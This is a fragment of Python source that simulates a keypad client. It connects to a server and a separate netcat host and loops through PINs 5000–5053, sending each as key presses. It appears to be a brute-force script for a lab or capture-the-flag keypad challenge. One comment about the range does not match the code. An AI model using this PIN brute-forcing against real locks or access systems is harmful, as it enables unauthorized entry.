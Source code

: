 ```python

        return keymap[key][0] + '\n'

    elif command == '0F':  # Example: simulate that a key in the first column is pressed
        
        key = key_presses[current_key_to_send]

        current_key_to_send += 1

        return keymap[key][1] + '\n'

        
    else:
        return 'FF\n'  # Simulate no key pressed or invalid command

def run_client(server_host, server_port):
    global key_presses,  current_key_to_send


    # Set the host and port for the netcat server
    nc_host = HOST_2 
    nc_port = PORT_2

    # Create a socket
    sock_nc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    # Connect to the netcat server
    sock_nc.connect((nc_host, nc_port))
    print("Connected to NC server.")



    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect((server_host, server_port))
        print("Connected to server")
        for pin in range(5000, 5054):  # Range to include 5254
            
            key_presses = f"{pin:04d}#"  # Format pin with leading zeros and end with #
            
            print(key_presses)
            current_key_to_send = 0

            while True:
                data = sock.recv(1024).decode('utf-8').strip()
                if not data:
                    print("Server closed the connection")
                    break

                print(f"Received from server: {data}")

                # Process incoming data from the server and simulate keypad read
                response = simulate_keypad_read(data)

                if response:
                    sock.sendall(response.encode('utf-8'))  # Send response back to the server
                    
                if len(key_presses) == current_key_to_send:
                    break

                if data == 'quit':  # Optionally handle a quit command
                    print("Quit command received")
                    break

```